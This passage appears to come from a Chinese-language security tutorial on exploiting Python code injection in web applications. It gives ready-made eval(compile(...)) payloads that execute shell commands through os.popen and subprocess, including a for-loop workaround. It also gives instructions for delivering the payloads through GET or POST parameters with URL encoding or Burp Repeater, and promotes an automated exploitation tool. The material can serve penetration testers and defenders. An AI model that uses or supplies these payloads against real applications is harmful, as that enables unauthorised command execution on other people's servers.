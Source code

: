 ```
# Examples with one expression
eval(compile("""__import__('os').popen(r'COMMAND').read()""",'','single'))
eval(compile("""__import__('subprocess').check_output(r'COMMAND',shell=True)""",'','single'))
#Examples with multiple statements, separated by semicolons
eval(compile("""__import__('os').popen(r'COMMAND').read();import time;time.sleep(2)""",'','single'))
eval(compile("""__import__('subprocess').check_output(r'COMMAND',shell=True);import time;time.sleep(2)""",'','single'))
```

在我的测试过程中，有时全局函数“__import__”会不起作用。在这种情况下，我们就要使用for循环了。相关代码如下所示：

```
eval(compile("""for x in range(1):n import osn os.popen(r'COMMAND').read()""",'','single'))
```

```
eval(compile("""for x in range(1):n import subprocessn subprocess.Popen(r'COMMAND',shell=True, stdout=subprocess.PIPE).stdout.read()""",'','single'))
```

```
eval(compile("""for x in range(1):n import subprocessn subprocess.check_output(r'COMMAND',shell=True)""",'','single'))
```

如果包含漏洞的参数是一个GET参数，那么你就可以直接在浏览器中利用这个漏洞了：

[![](https://p1.ssl.qhimg.com/t019aa9582743f08d14.png)](https://p1.ssl.qhimg.com/t019aa9582743f08d14.png)

请注意：虽然浏览器会帮你完成绝大部分的URL编码工作，但是你仍然需要对分号（%3b）和空格(%20)进行手动编码。除此之外，你也可以直接使用我们所开发的工具。

如果是POST参数的话，我建议各位直接使用类似Burp Repeater这样的工具。如下图所示，我在subprocess.check_output()函数中一次性调用了多个系统命令，即pwd、ls、-al、whoami和ping。

[![](https://p0.ssl.qhimg.com/t014e2504ef3b827c85.png)](https://p0.ssl.qhimg.com/t014e2504ef3b827c85.png)

[![](https://p1.ssl.qhimg.com/t017ff984a5fb8631af.png)](https://p1.ssl.qhimg.com/t017ff984a5fb8631af.png)

<br>

**漏洞利用工具-PyCodeInjectionShell**

你可以直接访问[PyCodeInjectionShell的GitHub主页](https://github.com/sethsec/PyCodeInjection)获取工具源码，我们也提供了相应的工具使用指南。在你使用这款工具的过程中会感觉到，它跟sqlmap一样使用起来非常的简单。除此之外，它的使用方法跟sqlmap基本相同。

[![](https://p3.ssl.qhimg.com/t0146440c26c12f482e.png)](https://p3.ssl.qhimg.com/t0146440c26c12f482e.png)

[![](https://p4.ssl.qhimg.com/t01d5eeb6975b56fc20.png)](https://p4.ssl.qhimg.com/t01d5eeb6975b56fc20.png)

<br>

**结束语**

如果各位对本项目有任何的建议或者疑问的话，欢迎各位同学在GitHub上与我互动。
